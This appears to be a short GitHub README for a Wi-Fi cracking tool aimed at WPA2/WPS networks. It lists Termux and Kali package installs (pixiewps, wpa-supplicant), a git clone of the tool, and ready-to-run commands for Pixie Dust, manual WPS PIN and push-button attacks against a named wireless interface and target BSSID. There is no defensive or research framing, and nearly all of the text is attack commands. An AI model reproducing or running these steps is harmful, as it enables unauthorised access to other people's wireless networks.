 # Wi-Fi PassWord only WPA2 HACK

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw openssl

# download only root user

pkg install pip

# installing Tool ComMand

pkg install git

pkg install python3


git clone https://github.com/HeartHaNterAlex/wifi


# only one command run


sudo python wifi/ps.py -i wlan1 -K
# kali command 
sudo python wifi/kali-ps.py -i wlan1 -K

# select Host number press inter attack 

# manual pin attack 🧷

sudo python3 ps.py -i wlan0 -b d9:90:4C:C9:D0:A7 -B -p 1234

sudo python3 ps.py -i wlan0 --pbc
